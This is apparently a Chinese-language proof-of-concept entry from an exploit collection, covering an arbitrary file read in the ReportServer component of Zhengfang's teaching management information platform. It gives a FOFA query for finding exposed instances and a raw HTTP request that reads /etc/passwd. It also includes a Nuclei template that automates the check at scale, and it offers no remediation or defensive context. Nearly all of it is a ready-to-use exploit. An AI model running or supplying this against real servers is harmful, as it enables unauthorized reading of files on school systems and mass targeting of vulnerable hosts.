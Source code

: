 ## 正方教学管理信息服务平台ReportServer存在任意文件读取漏洞

## fofa
```
body="正方软件股份有限公司" && title="教学管理信息服务平台"
```

## poc
```
GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```
![b211abfd216e9904485e663877a1e747](../../images/97cb775c-c793-4384-9205-e718ea321f57.png)

## Nuclei脚本
```
id: zfjxgl-reportserver-anyfileread

info:
  name: zfjxgl-reportserver-anyfileread
  author: xxxx
  severity: high

http:
  - raw:
    - | 
      GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true HTTP/1.1
      Host: {{Hostname}}
      Content-Type: text/plain
      Connection: close

    matchers:
      - type: dsl
        dsl:
         - status_code==200 && contains_all(body,"root")

```
